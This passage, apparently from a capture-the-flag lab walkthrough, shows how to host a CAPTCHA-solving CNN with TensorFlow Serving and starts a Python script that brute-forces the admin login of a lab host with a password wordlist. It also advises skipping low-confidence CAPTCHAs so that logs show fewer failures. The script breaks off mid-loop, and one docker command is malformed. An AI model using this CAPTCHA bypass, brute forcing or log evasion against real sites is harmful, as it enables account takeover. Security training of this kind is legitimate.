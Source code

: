 
By comparing the loss and perplexity values of the two samples, you will see that the CNN is uncertain about its answer. We can actually use this to our advantage when performing live predictions. We can create a discrepancy between CAPTHCA prediction accuracy and CAPTCHA submission accuracy simply by not submitting the CAPTCHAs that we are too uncertain about. Instead, we can request a new CAPTCHA. This enables us to change the OpSec of our attack, as the logs won't show a significant amount of entries for incorrect CAPTCHA submissions.


### Hosting Our CNN Model

Now that we’ve trained our CNN, we’ll need to host the CNN model to send it CAPTCHAs through our brute forcing script. For this, we will use [TensorFlow Serving](https://github.com/Tensorflow/serving).

Once a CNN has been trained, we can export the weights of the different nodes. This allows us to recreate the trained network at any time. An export of the trained CNN has already been created for you under the `/ocr/model/` directory. We’ll now export that model from the Docker container using the following command:

`cd /ocr/ && cp -r model /tempdir/`

Once that’s complete, you can exit the Docker container terminal (use the `exit` command) and kill it using the following command (you can reuse `docker ps` to get the container ID):

`docker kill CONTAINER_ID`

TensorFlow serving will run in a docker container, This will expose the API that we will then use to interface with the hosted model to send it a CAPTCHA prediction. You can start the Serving container using the following command:
```bash
docker run -t --rm -p 8501:8501 -v /tmp/data/model/exported-model:/models/ -e MODEL_NAME=ocrtensorflow/serving
```


this can be accessed via the URL: `http://localhost:8501/v1/models/ocr/`

### Brute Forcing the Admin Panel

```python
```python
#Import libraries
import requests
import base64
import json
from bs4 import BeautifulSoup

username = "admin"
passwords = []

#URLs for our requests
website_url = "http://hqadmin.thm:8000"
model_url = "http://localhost:8501/v1/models/ocr:predict"

#Load in the passwords for brute forcing
with open("passwords.txt", "r") as wordlist:
    lines = wordlist.readlines()
    for line in lines:
        passwords.append(line.replace("\n",""))


access_granted = False
count = 0

#Run the brute force attack until we are out of passwords or have gained access
while(access_granted == False and count < len(passwords)):
    #This will run a brute force for each password
    password = passwords[count]
```